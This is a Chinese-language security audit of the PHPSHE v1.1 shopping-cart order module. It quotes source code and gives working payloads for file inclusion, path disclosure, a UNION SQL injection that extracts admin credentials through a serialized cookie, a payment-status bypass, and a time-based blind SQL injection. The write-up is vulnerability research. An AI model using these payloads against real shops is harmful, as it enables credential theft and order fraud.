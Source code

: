 ### **PHPSHE V1.1 （二）**

**order.php**
接下來，我們來看看`order`購物車及訂單模塊。
<br >
大致看一下、購物車列表主要以序列化形式緩存在cookie裏面，第一反應就想到能不能有序列化注入？`選擇支付方式`似乎也存在包含漏洞。
<br >
先看看選擇`支付方式`的包含漏洞的

```php
//Line:106

case 'pay':
    ...
    if (isset($_p_pesubmit)) {
        ...
        include("{$pe['path_root']}include/plugin/payway/{$_p_info['order_payway']}/order_pay.php");
```

此處`$_p_info['order_payway']`可控且未經過濾。

### **【Bug 0x04: 任意文件包含漏洞 有限制條件】**
`POST:/index.php?mod=order&act=pay`
<br >
`DATA:info[order_payway]=../../../robots.txt%00?&pesubmit=1`
<br >
再看看，`訂單增加`操作無需登入就可以對資料庫操作。

```php
//Line:65

case 'add':
    $cart_info = cart_info(unserialize($_c_cart_list));
```

跟進`cart_info()`函數

```php
//Line:135

function cart_info($_c_cart_list=array()) {
    ...
    else {
    if (is_array($_c_cart_list)) {
        foreach ($_c_cart_list as $k => $v) {
            $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
            $info_list[] = array_merge($v, $product_rows);
```

這個地方、除了可能有sql注入，同時還有一個亮點

`$info_list[] = array_merge($v, $product_rows);`

函數`array_merge()`錯誤的參數也會導致出現謝謝洩漏的。
<br >
我們任意構造一個錯誤的序列化訂單，例如`a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`
<br >
這是通過空購物車的時候，進行**購物車商品更改數量**操作自動生成的一個錯誤的商品信息。
<br >
`/index.php?mod=order&act=cartnum`
<br >
然後再次進行任意一個調用到`cart_info()`函數的操作就會發生錯誤並返回錯誤信息。

### **【Bug 0x05: 信息洩露 爆路徑】**

URL:
```
/index.php?mod=order&act=cartnum
/index.php?mod=order&act=add
/index.php?mod=order&act=cartdel
```
**Cookie**:`cart_list=a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`

```Warning: array_merge(): Argument #2 is not an array in E:\SourceCodes\phpshe1.1\module\index\order.php on line 148```

現在我們繼續審計是否存在注入。

```php
//Line:142

if (is_array($_c_cart_list)) {
    foreach ($_c_cart_list as $k => $v) {
        $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
```

`$k`存在注入。<br>
跟進`pe_select()`函數


```php
//Line:135

public function pe_select($table, $where = '', $field = '*')
    {
        //處理條件語句
        $sqlwhere = $this->_dowhere($where);
        return $this->sql_select("select {$field} from `".dbpre."{$table}` {$sqlwhere} limit 1");
```

再跟進`_dowhere()`函數


```php
//Line:181

//處理條件語句
protected function _dowhere($where)
{
    if (is_array($where)) 
    {
        foreach ($where as $k => $v) 
        {
            if (is_array($v)) 
            {
                $where_arr[] = "`{$k}` in('".implode("','", $v)."')";            
            }
            else 
            {
                in_array($k, array('order by', 'group by')) ? ($sqlby = " {$k} {$v}") : ($where_arr[] = "`{$k}` = '{$v}'");
            }
        }
        $sqlwhere = is_array($where_arr) ? 'where '.implode($where_arr, ' and ').$sqlby : $sqlby;
    }
    else 
    {
        $where && $sqlwhere = (stripos(trim($where), 'order by') === 0 or stripos(trim($where), 'group by') === 0) ? "{$where}" : "where 1 {$where}";
    }
    return $sqlwhere;
}
```

來自`$_c_cart_list`的`$k`未經過濾被帶入sql語句中，導致where條件注入。
<br >
這時，我們可以構造一個特殊的序列化購物車訂單，利用union任意查詢資料庫內容。
<br >
PHP_生成POC

```php
<?php
$b["'union select admin_name,2,3,4 from pe_admin -- -"][0] = '1\'';
$b["'union select admin_pw,2,3,4 from pe_admin -- -"][1] = '1\'';
$s = serialize($b);
print_r($s);
?>
```


### **【Bug 0x06: SQL注入 任意查詢】**

URL:`/index.php?mod=order&act=add`

Cookie:
<br>
```a:2:{s:49:"'union select admin_name,2,3,4 from pe_admin -- -";a:1:{i:0;s:2:"v'";}s:47:"'union select admin_pw,2,3,4 from pe_admin -- -";a:1:{i:1;s:2:"v'";}}```

兩個商品名稱處分別顯示管理員用戶名和密碼。
回到**訂單增加**操作。

```php
//Line:73-80

$_p_info['order_productmoney'] = $money['order_productmoney'];
$_p_info['order_wlmoney'] = $money['order_wlmoney'];
$_p_info['order_money'] = $money['order_money'];
$_p_info['order_atime'] = time();
$_p_info['user_id'] = $_s_user_id;
$_p_info['user_name'] = $_s_user_name;
$_p_info['user_address'] = "{$_p_province}{$_p_city}{$_p_info['user_address']}";
if ($order_id = $db->pe_insert('order', $_p_info)) {
```

我們用`print_r()`或者`var_dump()`輸出`$_p_info`

```php
Array
(
    [user_address] => 河南省鄭州市測試
    [user_tname] => 姓名
    [user_phone] => 13012345678
    [user_tel] =>
    [order_text] =>
    [order_productmoney] => 133.0
    [order_wlmoney] => 0.0
    [order_money] => 133.0
    [order_atime] => 1461044204
    [user_id] =>
    [user_name] =>
)
```

這時可以發現`user_tname`和`user_phone`和`user_tel`和`order_text`都沒有經過處理，就代入了sql查詢。
<br >
這裡、我們可以利用update注入了。當然，我們沒有登入、無法查看到訂單詳情。
<br >
同時，我們也可以構造其他的參數例如`order_state`,直接修改訂單狀態。

### **【Bug 0x07: 支付繞過】**

URL:
```
/index.php?mod=order&act=add
```

DATA:
```
....
info[order_state]=paid
```

雖然會返回訂單號錯誤，但確實是成功了。
<br >
在登入情況下，該頁面也存在不少注入漏洞。

```php
//Line:34

case 'cartnum':
    $money['order_productmoney'] = $money['order_wlmoney'] = $money['order_money'] = 0;
    if (pe_login('user')) {
        $result = $db->pe_update('cart', array('user_id'=>$_s_user_id, 'product_id'=>$_g_product_id), array('product_num'=>$_g_product_num));
    }
```

`$_g_product_id`和`$_g_product_num`未經顧慮就帶入了sql更新。
<br >

### **【Bug 0x08: SQL注入 Update注入 AND/OR time-based blind 登入限制】**

URL:

```/index.php?mod=order&act=cartnum&product_id=1&product_num=12' AND (SELECT * FROM (SELECT(SLEEP(5)))YfCN) AND 'RShN'='RShN```